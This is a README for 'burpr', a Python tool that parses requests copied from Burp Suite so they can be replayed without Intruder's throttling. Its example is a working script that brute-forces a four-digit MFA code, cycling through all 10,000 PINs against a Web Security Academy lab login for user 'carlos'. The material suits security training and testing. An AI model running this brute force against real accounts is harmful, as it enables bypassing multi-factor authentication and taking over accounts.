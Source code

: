 # What is it
A Burp Suite request parser, used for aid in assessing application security functionality.

# Why I wrote it
To bypass the throttling 'Burp Suite Community' does to the intruder.

# Usage
Use burpr.py module to parse the Burp Suite copied request. Then use the created object to extract headers and body.

Supports parsing requests as strings and as .txt files.

```python
import burpr
req = burpr.parse_string(req)

client = httpx.Client(http2=True)
res = client.post(req.url, headers=req.headers, data=req.body)
```

# Examples
## Brute force broken MFA
```python
import burpr
import httpx
import itertools

burp_request = r"""POST /login2 HTTP/2
Host: xxxx.web-security-academy.net
Cookie: verify=carlos; session=xxxx
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxxx.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

mfa-code=4321
"""

def generate_pin_numbers():
  return [''.join(list([str(digit) for digit in permutation])) 
          for permutation in itertools.product(list(range(0, 10)), repeat=4)]

def brute_force_broken_mfa():
  req = burpr.parse_string(burp_request)
  client = httpx.Client(http2=True)

  for pin in generate_pin_numbers():
    req.body["mfa-code"] = pin  
    res = client.post(req.url, headers=req.headers, data=req.body)

    print(res.status_code, pin)
    
    if (res.status_code != 200):
      break

brute_force_broken_mfa()
```
